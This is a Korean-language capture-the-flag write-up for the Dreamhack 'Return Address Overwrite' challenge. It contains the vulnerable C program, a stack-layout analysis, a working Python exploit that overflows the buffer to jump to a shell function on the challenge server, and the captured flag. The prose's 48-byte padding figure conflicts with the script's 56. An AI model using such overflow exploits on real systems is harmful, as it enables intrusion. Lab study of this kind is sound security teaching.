




# 시스템 보안 과제

## Return Address Overwrite

### 📝 문제 정보



| **분류** | **내용** |
| --- | --- |
| **문제 이름** | Return Address Overwrite (RAO) |
| **플랫폼** | Dreamhack ([https://dreamhack.io/wargame/challenges/351](https://dreamhack.io/wargame/challenges/351)) |
| **취약점** | Stack Buffer Overflow (SBO), Return Address Overwrite |
| **아키텍처** | x86-64 (64bit) |

### 🔍 취약점 분석

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};

  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];

  init();

  printf("Input: ");
  scanf("%s", buf);

  return 0;
}
```

>> 문제의 전체 코드는 다음과 같다. 우리가 주의깊게 살펴봐야 할 부분은 `char buf[0x28];` , `scanf("%s", buf);` 이다. 버퍼를 선언할 때 `0x28` , 즉 10진수로 따지면 40바이트짜리 공간을 내주었으나, `scanf`로 입력받을 때는 입력받는 문자열의 길이를 제한하지 않는 `%s` 포맷 스트링으로 입력받기 때문에, 버퍼의 크기(40바이트)보다 더 큰 입력값을 받게 되면 스택의 경계를 넘어 다른 데이터 영역을 덮어쓰는 **스택 버퍼 오버플로우**가 발생한다. 

>> 프로그램 내부에 셸을 획득하게 해주는 `get_shell()` 함수가 존재하므로, `main` 함수가 종료될 때 참조하는 `Return Address`를 `get_shell()`의 주소로 덮어쓰는 것이 핵심 목표가 된다.

### 🏗️ 메모리 & 페이로드 설계

**📊 스택 프레임 구조 (64-bit)**

| 영역 | 크기 | 설명 |
| --- | --- | --- |
| buf | 40 바이트 | 소스코드에 선언된 버퍼 공간 (0x28) |
| SFP | 8 바이트 | Saved Frame Pointer |
| Return Address | 8 바이트 | 최종 타겟 (덮어쓸 위치) |

**📐 페이로드(Payload) 크기 계산**

입력 시작점인 `buf`에서부터 `Return Address` 바로 앞까지 도달하기 위해 채워야 하는 더미(Dummy) 데이터의 크기를 계산한다.

- **공식:** `buf 크기 (40바이트)` + `SFP 크기 (8바이트)` = **총 48바이트**
- **최종 페이로드 구성:** `48바이트의 쓰레기 값 ('A')` + `get_shell() 함수의 메모리 주소`

### 💻 익스플로잇 코드

**💡 익스플로잇 설계 아이디어**

이 문제의 핵심은 프로그램이 끝날 때 돌아갈 목적지(Return Address)를 내가 원하는 곳으로 하이재킹하는 것이다.

1. **타겟 설정**
프로그램 안에는 셸을 띄워주는 `get_shell()` 함수가 숨어있다. 정상적인 흐름으로는 절대 실행되지 않지만, main 함수가 끝날 때 참조하는 리턴 주소(RET)를 이 함수의 주소로 바꿔치기하면 셸을 획득할 수 있다.
2. **오프셋(Offset) 계산과 더미(Dummy) 덮어쓰기**
입력창(buf)부터 타겟(RET)까지 도달하려면 중간에 있는 메모리를 다 채우면서 넘어가야 한다.
>> 계산식: buf (40바이트) + SFP (8바이트) = 총 48바이트
즉, 리턴 주소 직전까지 48바이트의 공간이 있으므로, 이 공간을 아무 의미 없는 쓰레기 값(주로 A)으로 꽉꽉 채워준다. (b"A" * 48)
3. **주소 덮어쓰기 & 리틀 엔디언 (Little-Endian)**
더미로 48바이트를 채웠다면, 그다음 입력되는 값은 정확히 RET 영역을 덮어쓰게 된다. 이곳에 `get_shell`의 주소를 넣으면 되는데, x86-64 아키텍처는 데이터를 거꾸로 저장하는 리틀 엔디언 방식을 쓴다.
따라서 `0x4006aa` 같은 주소를 직접 뒤집어 넣기 귀찮으니, `pwntools`의 `p64()` 함수를 써서 컴퓨터가 알아먹기 좋게 64비트 크기로 패킹해서 뒤에 붙여준다.

**[최종 페이로드 요약]**
👉 **쓰레기 값 48개 + p64(get_shell 주소)**

**🐍익스플로잇 스크립트 (`exploit.py`)**

```c
import socket, struct, time

PORT = 23903 

# 1. 서버 접속
p = socket.socket()
p.connect(('host3.dreamhack.games', PORT))

# "Input: " 프롬프트 먼저 받기 (서버와 타이밍 맞추기)
print("[*]", p.recv(1024).decode('utf-8', 'ignore'))

# 2. 페이로드 (실제 할당 버퍼 48바이트 + SFP 8바이트 = 총 56바이트 더미 + get_shell 주소)
payload = b"A" * 56 + struct.pack('<Q', 0x4006aa)

# 3. 페이로드 쏘기 (엔터 \n 포함)
p.send(payload + b'\n')
time.sleep(1) # 서버가 셸을 띄울 시간 1초 대기

# 4. 셸 획득 후 플래그 읽기 명령 전송
p.send(b'cat flag\n')
time.sleep(1)

# 5. 결과 화면에 출력
print("\n[최종 결과]")
print(p.recv(4096).decode('utf-8', 'ignore'))
```

### 🚩 플래그 획득







>> 성공적으로 셸을 획득해, 플래그가 `DH{5f47cd0e441bdc6ce8bf6b8a3a0608dc}`로 확인되는 것을 알 수 있다.